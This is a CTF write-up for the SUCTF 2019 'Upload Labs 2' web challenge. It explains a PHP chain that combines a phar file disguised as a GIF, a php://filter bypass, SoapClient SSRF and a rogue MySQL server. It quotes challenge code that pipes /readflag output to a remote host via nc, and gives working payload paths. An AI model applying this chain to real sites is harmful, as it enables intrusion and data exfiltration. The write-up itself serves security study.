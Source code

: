 ### References

- [@peri0d, SUCTF 2019 Upload labs 2 踩坑记录, 2020-03-11](https://www.cnblogs.com/peri0d/p/12465523.html)
- [@Zedd, SUCTF 2019 出题笔记 & phar 反序列化的一些拓展, 2019-08-24](https://xz.aliyun.com/t/6057#toc-2)
- [MySQL connect file read, 2016-04-20](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)

**Tag: Phar Unserialize, MySQL Client Read Arbitrary File, SoapClient**

Source code in: [Upload Labs 2](https://github.com/team-su/SUCTF-2019/tree/master/Web/Upload%20Labs%202)

1.In `index.php`, here are only allowed to upload image

```php
if (isset($_POST["upload"])) {
    $allowedExts = array("gif", "jpeg", "jpg", "png");
```

Also checked the `content-type` and limit the image size to 200k:

```php
if ((($_FILES["file"]["type"] == "image/gif")
            || ($_FILES["file"]["type"] == "image/jpeg")
            || ($_FILES["file"]["type"] == "image/png"))
        && ($_FILES["file"]["size"] < 204800)   // 小于 200 kb
        && in_array($extension, $allowedExts)
    )
```

then call the following code:

```php
$c = new Check($tmp_name);
$c->check();

// class.php
function check(){
    $data = file_get_contents($this->file_name);
    if (mb_strpos($data, "<?") !== FALSE) {
        die("&lt;? in contents!");
    }
}
```

The file content cannot have `<?` which means the file we upload cannot have `<?php`, But it is also possible to use `<script language='php'>...</script>`.

> **NOTE: Script tags `<script language="php"></script>` are removed from PHP 7.**

2.After successful upload file, we can search it in the `func.php` page. The submitted `url ` parameter are sanitized:

```php
if (isset($_POST["submit"]) && isset($_POST["url"])) {
    if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");
    }
```

This is to filter phar unserialize, but the same thing can be done with the `php://`.

Then create `File` class and call the `getMIME` methods:

```php
$file_path = $_POST['url'];
$file = new File($file_path);
$file->getMIME();

// class.php
function getMIME(){
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $this->type = finfo_file($finfo, $this->file_name);
    finfo_close($finfo);
}
```

As @Zedd said, the `finfo_open` method also can trigger the phar unserialize. 

So now, we can create a phar file, disguised as a gif file and upload it. Then read it through the `php://` and trigger phar unserialize.

3.`File` class has a `__wakeup` method:

```php
function __wakeup(){
    $class = new ReflectionClass($this->func);
    $a = $class->newInstanceArgs($this->file_name);
    $a->check();
}
```

If we unserialize the `File` class, we can call the `check` method of any class here. Or we should think about the `__call` magic function.

In `admin.php`, we can see the following code:

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1')
```

This made me think of the SoapClient class immediately, it's `__call` function can be used for SSRF.

4.In `admin.php`, here have some very additionally puzzling code:

```php
$admin = new Ad($ip, $port, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
$admin->check();

function check(){
    $reflect = new ReflectionClass($this->clazz);
    $this->instance = $reflect->newInstanceArgs();

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
    $reflectionMethod->invoke($this->instance, $this->arg1);

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
    $reflectionMethod->invoke($this->instance, $this->arg2);

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
    $reflectionMethod->invoke($this->instance, $this->arg3);
}
```

Mentioned in @Zedd's notes(refer[2]), if the environment `Ad` class using `__destruct`, the above code is useless.

```php
function __destruct(){
    getFlag($this->ip, $this->port);
}
```

But the real environment `Ad` class uses `__wakeup`:

```php
function __wakeup(){
    system("/readflag | nc $this->ip $this->port");
}
```

So we need to unserialize the `Ad` class to get flag.

In mysqli, `LOAD DATA LOCAL INFILE` trigger phar unseriliaze again. So the code in the check function actually corresponds to the mysql `connect` and `query`:

```php
$reflect = new ReflectionClass('Mysqli');
$sql = $reflect->newInstanceArgs();

$reflectionMethod = new ReflectionMethod('Mysqli', 'init');
$reflectionMethod->invoke($sql, $arr);

$reflectionMethod = new ReflectionMethod('Mysqli', 'real_connect');    // php bug #77496
$reflectionMethod->invoke($sql, 'ip','root','123456','testdb','3306');

$reflectionMethod = new ReflectionMethod('Mysqli', 'query');
$reflectionMethod->invoke($sql, 'select 1');
```

We only need to use Rogue Mysql Server :)

5.All we have to do is link the two unserializations. Generate gif file using `poc1.php` and `poc2.php` respectively and upload them. Get the path:

```te
1.gif: upload/46c01c941bd10a9c3038752f7354f2e8/b5e9b4f86ce43ca65bd79c894c4a924c.gif
2.gif: upload/46c01c941bd10a9c3038752f7354f2e8/274a01ad7ad7ad7d73d5f0b399ae5db2.gif
```

Meanwhile, run `rogue_mysql.py` with 2.gif filename and listen a port on vps to get the `system` function results.

Then go to the `func.php` page and submit the url with 1.gif path:

```php
php://filter/resource=phar://./upload/46c01c941bd10a9c3038752f7354f2e8/b5e9b4f86ce43ca65bd79c894c4a924c.gif
```

![](https://i.imgur.com/kLwysqs.png)

---

### PS

Here is only one line of code in the `config.php`:

```php
libxml_disable_entity_loader(true);
```

Means that external entities are disabled, but why?

In reference[2], we can find the `SimpleXMLElement` class also can trigger the phar unserialize! POC:

```php
<?php
error_reporting(0);
class A {
    public function __wakeup() {
        echo "ok!";
    }
}
$poc = new SimpleXMLElement('http://zedd.cc/test/test.xml', LIBXML_NOENT, True);
```

